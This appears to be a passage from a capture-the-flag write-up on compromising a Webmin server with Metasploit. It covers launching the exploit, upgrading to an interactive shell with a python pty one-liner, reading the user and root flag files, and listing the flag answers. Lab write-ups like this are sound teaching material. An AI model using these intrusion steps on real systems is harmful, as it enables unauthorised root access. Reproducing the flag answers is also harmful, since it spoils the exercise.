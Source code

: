 **⚠️ Important:** The `SSL true` setting is crucial for HTTPS Webmin instances.

#### 🎯 Execution
```bash
# Launch the exploit
run
# OR
exploit
```

### 🎉 Shell Access
**✅ Success:** Meterpreter session established with root privileges!

## 🔧 Post-Exploitation

### 🐚 Shell Stabilization
```bash
# Get a stable shell
shell

# Upgrade to interactive shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### 🏆 Flag Collection

#### 👤 User Flag
```bash
# Navigate to user directory
cd /home/dark

# Read user flag
cat user.txt
```

#### 👑 Root Flag
```bash
# Navigate to root directory
cd /root

# Read root flag
cat root.txt
```

## 🏆 Flags
- **👤 User Flag:** `THM{SUPPLY_CHAIN_COMPROMISE}`
- **👑 Root Flag:** `THM{UPDATE_YOUR_INSTALL}`

## 📚 Key Learnings

### 🔍 Reconnaissance Insights
- **Non-standard ports** often run critical services
- **HTTPS services** require proper SSL handling in tools
- **Service identification** is crucial for targeted attacks
